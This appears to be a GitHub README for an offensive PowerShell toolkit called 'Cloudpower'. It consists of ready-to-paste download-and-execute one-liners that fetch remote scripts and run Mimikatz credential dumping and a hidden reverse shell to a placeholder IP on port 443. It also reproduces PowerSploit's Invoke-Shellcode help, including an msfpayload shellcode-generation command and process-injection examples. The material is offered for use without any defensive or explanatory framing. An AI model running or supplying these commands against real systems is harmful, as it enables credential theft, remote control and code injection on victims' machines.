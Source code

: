 # Cloudpower
test for interest


# Help for Invoke-mimi:
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/aspiggy/Cloudpower/master/Invoke-mimi.ps1'); Invoke-Mimikatz



# Help for rev.ps1:
winx86:

powrshell -ep bypass -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/aspiggy/Cloudpower/master/rev.ps1'); rev -ip 4.4.4.4 -port 443"

winx64:

C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -ep bypass -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/aspiggy/Cloudpower/master/rev.ps1'); rev -ip 4.4.4.4 -port 443"

# Help for Invoke-Shellcode:
.SYNOPSIS
Inject shellcode into the process ID of your choosing or within the context of the running PowerShell process.
PowerSploit Function: Invoke-Shellcode
Author: Matthew Graeber (@mattifestation)
License: BSD 3-Clause
Required Dependencies: None
Optional Dependencies: None
 
.DESCRIPTION
Portions of this project was based upon syringe.c v1.2 written by Spencer McIntyre
PowerShell expects shellcode to be in the form 0xXX,0xXX,0xXX. To generate your shellcode in this form, you can use this command from within Backtrack (Thanks, Matt and g0tm1lk):
msfpayload windows/exec CMD="cmd /k calc" EXITFUNC=thread C | sed '1,6d;s/[";]//g;s/\\/,0/g' | tr -d '\n' | cut -c2- 
Make sure to specify 'thread' for your exit process. Also, don't bother encoding your shellcode. It's entirely unnecessary.
 
.PARAMETER ProcessID
Process ID of the process you want to inject shellcode into.
.PARAMETER Shellcode
Specifies an optional shellcode passed in as a byte array
.PARAMETER Force
Injects shellcode without prompting for confirmation. By default, Invoke-Shellcode prompts for confirmation before performing any malicious act.
.EXAMPLE
C:\PS> Invoke-Shellcode -ProcessId 4274
Description
-----------
Inject shellcode into process ID 4274.
.EXAMPLE
C:\PS> Invoke-Shellcode
Description
-----------
Inject shellcode into the running instance of PowerShell.
.EXAMPLE
C:\PS> Invoke-Shellcode -Shellcode @(0x90,0x90,0xC3)
    
Description
-----------
Overrides the shellcode included in the script with custom shellcode - 0x90 (NOP), 0x90 (NOP), 0xC3 (RET)
Warning: This script has no way to validate that your shellcode is 32 vs. 64-bit!
